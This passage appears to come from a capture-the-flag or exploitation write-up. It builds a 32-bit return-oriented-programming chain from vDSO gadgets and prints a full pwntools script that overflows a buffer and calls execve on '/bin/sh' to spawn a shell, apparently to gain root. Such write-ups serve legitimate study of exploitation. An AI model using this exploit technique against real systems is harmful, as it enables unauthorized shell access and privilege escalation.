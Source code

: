 We can use this to move the value in `ecx` to `eax`, as long as `ebp` points to a valid memory. We can easily find a `pop ebp` to ensure that. We can also see the convenient `pop ebx` that we can use in our ROP chain.

## Setting up the ROP chain

At this point we can just do a normal ROP chain. As ASLR is disabled, we don't need to leak anything.

**Note**: when debugging with gdb, make sure to unset the `LINES` and `COLUMNS` environment variables since they will mess the stack addresses and the address to the `/bin/sh` string and the `argv` array will be wrong when not running in gdb.

```
unset env LINES
unset env COLUMNS
```

## No root privileges?

At this point, our exploit looks like this

```py
from pwn import *

context.binary = './target'			# make sure all packing is done in 32-bit mode, as per the target

VDSO_BASE_ADDR = 0xf7ffc000

MOV_EAX_ECX_PLUS_EBP_M20_MOV_EBX = VDSO_BASE_ADDR + 0x67c
POP_EBP = VDSO_BASE_ADDR + 0x0000613
POP_EDX_ECX = VDSO_BASE_ADDR + 0x0000057a
SYSCALL = VDSO_BASE_ADDR + 0x00000577
BINSH = 0xffffded0
ARGV = BINSH + 8

payload = flat(
    b'A'*0x20,

    POP_EBP,
    0x8048028,          # EBP

    POP_EDX_ECX,
    0,                  # EDX
    11,                 # ECX -> EAX

    MOV_EAX_ECX_PLUS_EBP_M20_MOV_EBX,
    b'A'*44,
    BINSH,
    b'A'*12,
    
    POP_EDX_ECX,
    0,
    ARGV,
    SYSCALL,
    b'/bin/sh\x00',
    BINSH+5,
    0
)

print(payload)
```
